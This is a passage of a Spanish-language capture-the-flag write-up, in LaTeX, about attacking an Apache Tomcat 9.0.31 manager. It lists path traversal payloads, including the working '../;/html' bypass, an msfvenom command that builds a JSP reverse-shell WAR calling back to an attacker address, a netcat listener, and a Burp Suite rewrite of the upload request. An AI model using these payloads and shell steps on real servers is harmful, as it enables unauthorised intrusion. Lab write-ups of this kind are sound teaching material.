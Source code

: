 Dado nuestro fallido éxito con el servidor \acrshort{ssh}, se decide investigar las \acrshort{uri}s anteriores, pero solo en \texttt{/manager/status} podemos entrar, ya que nos pide usuario y contraseña, y estos, los habíamos conseguido anteriormente (figura \ref{fig:seal-tomcat-users}-c). Al entrar podemos comprobar la página de estado de \textit{Tomcat}. Vemos que se está ejecutando \textit{Apache Tomcat 9.0.31}\cite{tomcat}. Se decide buscar vulnerabilidades conocidas, pero no se encuentra nada explotable.\\

Entonces se decide investigar si se puede realizar \textit{path traversal} y así poder acceder a las \acrshort{uri}s \texttt{/manager/html/*} y \texttt{/manager/jmxproxy/*}. Se prueban varios payloads, como:
\begin{itemize}
    \item \texttt{/manager/status/../html}
    \item \texttt{/manager/status/../../manager/html}
    \item \texttt{/manager/status/..\textbackslash html}
    \item \texttt{/manager/status/\%2e\%2e/html}
    \item \texttt{/manager/status/\%2e\%2e\%2fhtml}
    \item \texttt{/manager/status/;/html}
    \item ...
\end{itemize}

Finalmente, damos con el payload correcto, \texttt{/manager/status/../;/html}. Probamos con el mismo payload, pero intentando acceder a \texttt{jmxproxy}, pero aparece una página de ayuda de \textit{Tomcat}. En la página encontramos la opción de desplegar un archivo \texttt{.war} a la web, por eso, se decide utilizar la herramienta \textit{msfvenom}\cite{msfvenom} para crear una shell remota. Lo logramos con:
\begin{lstlisting}[language=bash]
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=6969 -f war > shell.war
\end{lstlisting}

Antes de subir el archivo al servidor, se ha creado un \textit{netcat}\cite{netcat} local para cuando se establezca la ćonexión. Para ello, se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
nc -lvnp 6969
\end{lstlisting}

Al subir el archivo a la web, esta nos devuelve un código \textit{403 - Forbidden}, por lo que decidimos interceptar la llamada con \textit{Burp Suite}\cite{burpsuite}. Rápidamente nos damos cuenta que, la \acrshort{url} utilizada en la petición es \texttt{/manager/html/} (figura \ref{fig:seal-war-no-editado}), por eso se edita para que sea \texttt{/manager/status/../;/html/} y con eso, logramos subir el archivo \texttt{shell.war} (figura \ref{fig:seal-war-editado}).


